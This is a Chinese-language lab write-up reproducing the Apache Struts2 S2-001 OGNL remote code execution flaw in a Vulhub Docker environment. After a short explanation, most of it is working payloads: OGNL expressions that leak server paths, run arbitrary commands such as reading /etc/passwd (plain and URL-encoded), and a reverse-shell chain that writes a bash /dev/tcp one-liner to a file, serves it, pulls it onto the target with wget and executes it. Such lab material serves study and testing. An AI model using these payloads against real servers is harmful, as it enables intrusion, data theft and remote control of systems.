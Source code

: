 # Apache Struts2 S2-001 远程代码执行漏洞

## 漏洞描述

该漏洞因为用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用 OGNL 表达式 `%{value}` 进行解析，然后重新填充到对应的表单数据中。例如注册或登录页面，提交失败后端一般会默认返回之前提交的数据，由于后端使用 `%{value}` 对提交的数据执行了一次 OGNL 表达式解析，所以可以直接构造 Payload 进行命令执行.

参考阅读：

- http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

## 环境搭建

Vulhub 执行以下命令启动 s2-001 测试环境：

```
docker-compose build
docker-compose up -d
```

## 漏洞复现

获取 tomcat 执行路径：

```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

获取 Web 路径：

```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

执行任意命令（命令加参数：`new java.lang.String[]{"cat","/etc/passwd"}`）：

```
# URLencode前
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"id"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

```
# URLencode后
%25%7B%23a%3D(new%20java.lang.ProcessBuilder(new%20java.lang.String%5B%5D%7B%22id%22%7D)).redirectErrorStream(true).start()%2C%23b%3D%23a.getInputStream()%2C%23c%3Dnew%20java.io.InputStreamReader(%23b)%2C%23d%3Dnew%20java.io.BufferedReader(%23c)%2C%23e%3Dnew%20char%5B50000%5D%2C%23d.read(%23e)%2C%23f%3D%23context.get(%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22)%2C%23f.getWriter().println(new%20java.lang.String(%23e))%2C%23f.getWriter().flush()%2C%23f.getWriter().close()%7D
```

![image-20220301154735903](images/202203011547043.png)

### 反弹 shell

准备反弹 Shell 文件 shell.sh：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
```

启动 http server：

```
# python2
python -m SimpleHTTPServer 80

# python3
python -m http.server 80
```

上传 shell.sh 文件：

```
# URLencode前
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"wget","192.168.174.128/shell.sh"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

![image-20220301155634793](images/202203011556922.png)

执行 shell.sh 文件：

```
# URLencode前
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"bash","/usr/local/tomcat/shell.sh"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

![image-20220301155834822](images/202203011558934.png)

监听 9999 端口，接收反弹 shell：

![image-20220301155706920](images/202203011557020.png)
